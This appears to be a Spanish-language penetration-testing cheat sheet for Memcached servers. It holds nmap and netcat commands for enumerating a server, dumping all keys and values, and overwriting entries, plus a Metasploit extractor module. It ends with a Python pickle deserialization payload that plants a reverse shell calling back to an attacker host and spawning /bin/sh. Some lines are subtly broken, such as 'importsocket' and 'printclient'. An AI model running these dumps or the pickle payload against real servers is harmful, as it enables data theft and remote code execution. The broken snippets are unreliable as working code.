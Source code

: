 ## Info
### Nmap
```bash
nmap -p port --script memcached-info IP
```
### Netcat/Telnet
#### Conexion
```bash
nc IP PORT
```
#### Version 
```bash
echo -e 'version1\r\nquit\r\n' | nc IP PORT
```
#### Obtener la lista de keys con Python
```python
from pymemcache.client.base import Client
import pprint
client = Client(('IP', PORT))
pp = pprint.PrettyPrinter(indent=4)
for i in range(0 , 7):
  pp.pprint(client.stats("cachedump",str(i),"0"))
```
#### Obtener la lista de warm keys 
```
echo -e 'lru_crawler metadump all\r\nquit\r\n' | nc IP PORT | grep 'fetch=yes'
```
#### Obtener el valor de una key
```bash
echo -e 'get KEYNAME1\r\nquit\r\n' | nc IP PORT
```
##### JSONIFY Data usando pickle
```bash
echo -e "get data\r\nquit\r\n" | nc IP PORT > data
python -c 'import pickle;print pickle.load(open("data"));'
```
#### Obtener el numero total de parejas key value en el servidor
```bash
echo -e 'stats items1\r\nquit\r\n' | nc IP PORT | grep 'number '
```
Y sumamos los numeros de cada item 

##### Python Implementation

```python
python -c 'from pymemcache.client.base import Client; client = Client(("IP", PORT)); printclient.stats()["curr_items"]'
```
#### Añadir una clave-valor nueva
```bash
nc IP PORT
> add CLAVE 0 0 LENGHT
> VALUE 
```
#### Actualizar el valor de una clave
```bash
nc IP PORT
> replace CLAVE 0 0 LENGHT
> VALUE 
```
#### Dump

##### Bash
```bash
xargs -L1 -I% sh -c 'echo "get KEYNAME" | nc IP PORT'
for key in $(memcdump --server=IP); do echo ------ $key ------; memccat --server=IP $key; done
for key in $(memcdump --server=target-1); do echo ------ $key ------; memccat --server=target-1 $key; done
```
##### Metasploit module
```msf
auxiliary/gather/memcached_extractor
```
### Injections 
#### Libro de referencia 
```
https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf
```
#### Python Pickle Serlization Attack

Ante un mensaje de error de pickle 
```python
import pickle
import subprocess
import os
from pymemcache.client.base import Client

class Shell(object):
    def __reduce__(self):
        return (os.system,("python -c 'importsocket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))
        
client = Client(('IP', PORT))
client.set("pickled",pickle.dumps(Shell()))
```
